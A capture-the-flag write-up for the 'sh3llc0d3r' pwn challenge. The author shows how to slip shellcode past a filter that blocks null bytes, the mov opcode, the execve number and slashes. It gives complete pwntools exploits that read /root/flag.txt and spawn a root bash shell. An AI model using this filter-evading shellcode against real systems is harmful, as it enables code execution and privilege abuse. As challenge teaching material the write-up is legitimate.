

Gymnasie-mesterskaberne 2022 Download
sh3llc0d3r [None]
*CHALL TEXT*
Reverse engineering
This is - in my opinion - the most interesting pwn challenge from this ctf. We are given a binary, that will execute any shellcode you give it, with the exception of a few critical characters. Let's reverse engineer it to find those characters. Opening the file in IDA, we set what looks like a for-loop:

The script is iterating over some value, testing if it equals any of these four values:
-
0
-
199
-
59
-
47
Looking at the x86_64 bit opcode index, combined with the ascii char table, we can make sense of what these entail:
-
0 is a null-byte, any form of null terminater.
-
199 is 16, 32 and 64 bit mov opcode
-
59 is the value for sys_execve
-
47 is a forward slash in ascii
Each of these have a different implication on our shellcode. The null byte means we can't inject a null-terminated string without some trickery. The restriction for value 59, probably to prevent the use of execve, is borderline useless, considering even basic arithmatic operations. The forward slash is annoying, means we can't have the /bin/bash or /root/flag.txt written onto the stack in plaintext. The mov restriction is most annoying of all, but there is a way around it.
Evading bad-chars
The thing to remember, is that there are many assembly commands that do more or less the same thing. For instance, while 0xc7 is the default move command, there is also 0xb8, which also supports imm64. nasm and gcc will default to 0xc7, but will use 0xb8 when dealing with a 64 bit value. So, moving our string to register, then to memory, won't actually be a problem.
As for installing the correct arguments for syscalls, we can't just change 0xc7 to 0xb8. The value still needs nullbytes. To avoid this, i'll be using push and pop, which doesn't suffer from the same problem.
At last, we need a way to avoid forward slashes. There are probably many solutions, i chose to use binary inversion, which also avoids null-bytes. Simply using the NOT command restores our original value.
Solution
In order to streamline the encoding of the target string, i created a helper function:
def prepare_string(string):
vals = []
string += chr(0) * (8 - len(string) % 8) # Pad the string to be 8-byte aligned
string = "".join(reversed(string)).encode() # Reverse the string
print(string)
for i in range(0, len(string), 8):
seg = string[i: min(i + 8, len(string))] # Extract the given segment
seg = "0x" + "".join(hex(~char & 0xff)[2:] for char in seg) # Get the binary inverse in hex for each char
vals.append(seg)
return vals
The function will pad the string, reverse it, then extract the binary inverse of the 64-bit values, so that it can be easily used in our assembly.
The first thing we need to do, is open the file. The following code will do so:
xor rax, rax
xor rsi, rsi # Open file in readonly
mov rax, {seg1} # mov the text seg into rax
not rax # Invert the segment
push rax # Push it onto the stack
mov rax, {seg2} # Repeat for segment 2
not rax
push rax
push 2
pop rax # Set rax = 2 for sys_open
lea rdi, [rsp] # Set the *path
syscall
This would return the file descriptor to rax. Then, we need to read the file:
push rax
pop rdi # Set fd = rax for the file descriptor
xor rax, rax # Set rax = 0 for sys_read
xor rdx, rdx # Set rdx = 0
lea rsi, [rsp] # Set the *buf
push 0x77
pop rdx # Set the mode
syscall
If everything goes well, the file contents should be stored on the stack at the stack pointer. We now just need to write it:
xor rdi, rdi
push 1
pop rdi # Set rdi = 1 for stdout
push rax
pop rdx # length
xor rax, rax
add rax, 1 # Set rax = 1 for sys_write
syscall
You could probably optimize the size of this shellcode, but in this particular challenge we have loads of space. Anyway, the program should now print the flag. The final code is as follows:
from pwn import *
context.binary = './sh3llc0d3r'
conn = process("./sh3llc0d3r")
def prepare_string(string):
vals = []
string += chr(0) * (8 - len(string) % 8) # Pad the string to be 8-byte aligned
string = "".join(reversed(string)).encode() # Reverse the string
for i in range(0, len(string), 8):
seg = string[i: min(i + 8, len(string))] # Extract the given segment
seg = "0x" + "".join(hex(~char & 0xff)[2:] for char in seg) # Get the binary inverse in hex for each char
vals.append(seg)
return vals
seg1, seg2 = prepare_string("/root/flag.txt")
shellcode = asm(f'''
xor rax, rax
xor rsi, rsi
mov rax, {seg1}
not rax
push rax
mov rax, {seg2}
not rax
push rax
push 2
pop rax
lea rdi, [rsp]
syscall
''')
shellcode += asm('''
push rax
pop rdi
xor rax, rax
xor rdx, rdx
lea rsi, [rsp]
push 0x77
pop rdx
syscall
''')
shellcode += asm('''
xor rdi, rdi
push 1
pop rdi
push rax
pop rdx
xor rax, rax
add rax, 1
syscall
''')
with open("sh3llc0d3r", "w+b") as f:
f.write(shellcode)
conn.recvuntil(b"...\n")
conn.send(shellcode)
conn.recvuntil(b"shellcode.\n\n")
print(conn.recvline())
And it works locally. Writing the shellcode to a file as follows:
with open("shellcode", "w+b") as f:
f.write(shellcode)
We can upload the file to the server, giving us our flag.
Alternate solution
As we have complete control of what code is executed, there is bound to be a multitude of different solutions. Therefore, I endevoured to solve it by getting a shell:
from pwn import *
context.binary = './shellcoder'
conn = process("./shellcoder")
def prepare_string(string):
vals = []
string += chr(0) * (8 - len(string) % 8) # Pad the string to be 8-byte aligned
string = "".join(reversed(string)).encode() # Reverse the string
for i in range(0, len(string), 8):
seg = string[i: min(i + 8, len(string))] # Extract the given segment
seg = "0x" + "".join(hex(~char & 0xff)[2:] for char in seg) # Get the binary inverse in hex for each char
vals.append(seg)
return vals
seg1, seg2 = prepare_string("/bin/bash")
shellcode = asm(f'''
movabs rax, {seg1}
not rax
push rax
movabs rax, {seg2}
not rax
push rax
lea rdi, [rsp]
xor rax, rax
push rax
lea rsi, [rsp]
lea rdx, [rsp]
push 60
pop rax
sub rax, 1
syscall
''')
with open("sh3llc0d3r-alternate", "w+b") as f:
f.write(shellcode)
conn.recvuntil(b"...\n")
conn.send(shellcode)
conn.interactive()
To run this on the server, we can simply upload it, and run with the command:
$ (cat sh3llc0d3r-alternate; cat) | ./sh3llc0d3r
This will give us a root shell.